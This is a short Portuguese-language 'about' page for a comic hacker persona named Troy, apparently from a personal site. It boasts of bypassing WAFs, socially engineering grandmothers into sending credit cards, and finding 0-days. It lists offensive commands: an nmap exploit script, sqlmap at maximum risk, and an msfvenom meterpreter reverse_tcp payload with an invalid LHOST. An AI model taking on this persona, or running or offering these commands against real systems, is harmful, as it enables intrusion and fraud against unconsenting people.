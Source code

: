 ```yaml
---
icon: fas fa-skull
order: 4
---
```


# 👹 QUEM É O TROY?
> "Hacker niilista, comedor de firewalls e filho ilegítimo do Lek do Black com o Rick Sanchez."

**Especialidades**:  
- Detonar WAFs antes do café  
- Social engineering que faz vó mandar cartão de crédito  
- 0-days que nascem quando eu espirro  

**Ferramentas do Apocalipse**:  
```bash
nmap --script=exploit-citrix.sh
sqlmap --level=5 --risk=3 --batch
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.666